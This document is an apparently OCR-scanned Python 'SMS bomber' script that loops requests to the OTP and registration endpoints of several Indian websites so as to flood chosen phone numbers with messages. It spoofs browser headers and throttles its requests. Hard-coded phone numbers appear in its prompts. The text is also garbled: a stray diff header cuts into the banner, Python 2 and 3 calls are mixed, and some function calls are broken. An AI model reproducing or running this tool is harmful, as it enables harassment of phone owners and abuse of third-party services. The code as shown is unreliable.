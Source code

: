 from urllib.request import Request,urlopen
 from urllib.parse import urlencode
 #python2
 #from urllib.request import Request,urlopen
 import urllib2,cookielib
 #from urllib.parse import urlencode
 import platform
 import os
 import time
 from random import randint

 try:
     raw_input
 except NameError:
     raw_input = input

 def banner():
     if platform.system().lower()=="windows":
         os.system("cls")
     else:
         os.system("clear")
     print("""

   /$$$$$$  /$$      /$$  /$$$$$$        /$$$$$$$   /$$$$$$  /$$      /$$ /$$$$$$$  /$$$$$$$$ /$$$$$$$ 
  /$$__  $$| $$$    /$$$ /$$__  $$      | $$__  $$ /$$__  $$| $$$    /$$$| $$__  $$| $$_____/| $$__  $$
 | $$  \__/| $$$$  /$$$$| $$  \__/      | $$  \ $$| $$  \ $$| $$$$  /$$$$| $$  \ $$| $$      | $$  \ $$
 @@ -21,44 +26,37 @@ def banner():
 |  $$$$$$/| $$ \/  | $$|  $$$$$$/      | $$$$$$$/|  $$$$$$/| $$ \/  | $$| $$$$$$$/| $$$$$$$$| $$  | $$
  \______/ |__/     |__/ \______/       |_______/  \______/ |__/     |__/|_______/ |________/|__/  |__/
                                                                                                                                                                                                     
                                    By : D3XBugg3R 
                                    Modded By: Lucas 
                                 With <3 of T34M GCA                                                                                                  
                                    By : D3XBugg3R                                                                                                 
     Note : I won't be responsible for any damage caused by this script, Use at your own risk
 """)
 #http://m.naaptol.com/faces/jsp/ajax/ajax.jsp?actionname=checkMobileUserExists&mobile=

 #https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=

 #http://t.justdial.com/api/india_api_write/10aug2016/sendvcode.php?mobile=

 #http://www.quikr.com/SignIn?aj=1&for=send_otp&user=

 #https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=

 how_many = input("How many numbers do you want to bomb? ")
 numbers = [] 
 for i in range(how_many):
     temp = str(input(f"Enter the number {i+1}: "))
     numbers.append(temp)

 def send(num, counter, slep):
     #url = ["https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=","https://m.naaptol.com/faces/jsp/ajax/ajax.jsp?actionname=checkMobileUserExists&mobile=","https://t.justdial.com/api/india_api_write/10aug2016/sendvcode.php?mobile="]
     url="https://m.naaptol.com/faces/jsp/ajax/ajax.jsp?actionname=checkMobileUserExists&mobile="
     data={"phone":num}
     url="https://securedapi.confirmtkt.com/api/platform/register?mobileNumber="
     #data={"phone":num}
     hdr = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11','Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8','Accept-Charset': 'ISO-8859-1,utf-8;q=0.7,*;q=0.3','Accept-Encoding': 'none','Accept-Language': 'en-US,en;q=0.8','Connection': 'keep-alive'}
     result_url=url+num
     req = urllib2.Request(result_url, headers=hdr)
     for x in range(counter):
         banner()
         print("Target Number          : 89620558442", num)
         print("Number of Message Sent : ", x+20)
         result_url=url+num
         resp1=Request(result_url)
         urlopen(resp1)
         #print("Target Number          : 01531999473", num)
         #print("Number of Message Sent : ", x+1)
         page = urllib2.urlopen(req)
         #resp1=Request(result_url)
         #urlopen(resp1)
         time.sleep(slep)
 try:
     banner()
     for number in numbers:
         send(number, int(input(f"Enter Number of Messages for {number} : ")), randint(3))
     number = raw_input("Enter mobileNumber:89620558442")
     count = raw_input("Enter number of Message: 20")
     throttle = raw_input("Enter time of sleep: 3")
     send(number,int(count), int(throttle))
 except Exception as e:
     print("Something is wrong please Run again this script.")
     print("Something is wrong please Re-run this script.")


